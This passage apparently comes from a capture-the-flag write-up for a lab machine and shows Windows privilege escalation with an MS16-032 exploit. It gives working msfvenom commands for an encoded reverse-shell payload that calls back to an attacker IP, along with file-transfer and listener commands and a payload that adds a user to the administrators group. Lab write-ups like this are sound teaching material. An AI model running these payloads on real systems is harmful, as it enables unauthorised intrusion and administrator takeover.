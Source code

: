 This will return the following output:

```
Gathering thread handles
Done, got 2 handles
System Token: 00000000000000B8
Couldn't open process token 5
```

However, after looking at the tasklist, a new `cmd.exe` is created as `Adminsitrator`:

```bash
tasklist /v
```

![user5](./optimum/user5.png)

This can be used to spawn a reverse shell as `Adminsitrator` by placing a binary `cmd.exe` in the same folder as the `ms16-032.exe` binary. Generate one and transfer it over to the target:

```bash
# run on kali
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
sudo impacket-smbserver BUBBA .
nc -nvlp 7777
# run on target
robocopy.exe \\10.10.14.25\BUBBA %TEMP% bubba.exe /copy:DT /w:1 /r:1 /v 
move %TEMP%\bubba.exe %TEMP%\cmd.exe
%TEMP%\ms16-032.exe
```

This results in a connection back from the target but the shell drops immediately? Instead of trying to make the reverse shell work, modify the exploit to just add the `kostas` user to the local administrators group:

```bash
msfvenom -p windows/x64/exec \
         CMD='net localgroup administrators kostas /add' \
         -a x64 --platform windows \
         -f exe \
         -o bubba.exe
```
